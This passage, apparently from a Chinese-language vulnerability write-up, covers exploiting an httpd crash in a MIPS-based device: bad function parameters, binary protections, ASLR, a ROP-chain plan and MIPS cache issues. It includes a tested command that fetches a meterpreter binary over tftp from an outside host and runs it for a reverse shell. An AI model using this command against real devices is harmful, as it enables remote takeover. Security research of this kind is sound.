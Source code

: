 上面可见的崩溃只是一个副作用，因为“dm_setParamNodeString”函数的参数不正确。

如果参数不正确，httpd 进程可能会在多个地方崩溃：

- 在“dm_checkString”函数内
- 在“dm_setParamNodeString”函数内
- 在“dm_fillObjByStr -> cdbg_printf”内（用粉红色标记）

## 检查二进制文件

崩溃本身是一个漏洞，但可能可以获得反向shell。

### 二进制保护

![26](images/26.png) 

![27](images/27.png) 

**可以从堆栈中执行指令。**

B计划是一个ROP链。

### 启用 ASLR：

![28](images/28.png)

## 如何利用它？？？

这并不容易，但（至少在理论上）这是可能的。以下部分包含最重要的问题和解决方案。

## 问题

## MIPS“缓存问题”

MIPS 和缓存可能会破坏有效负载，避免缓存问题的众所周知的技术是“睡眠”函数调用。

它在设备上使用一个小的测试二进制文件进行了测试，并且可以正常工作。

## “代码执行”部分

可以使用 msfvenom 工具生成正确的二进制文件。tftp 命令可用于执行复制二进制文件。二进制文件可以通过以下方式执行：

```bash
# copy and execute k44 binary (meterpreter, multi handler, mipsle)
system("tftp -g -r k44 -l k44 /var/tmp/shell 192.168.1.101; chmod +x k44;/var/tmp/k44")
    
```

它在设备上进行了测试，并且可以正常工作。:)

## JavaScript 加密和原始字节发送问题。
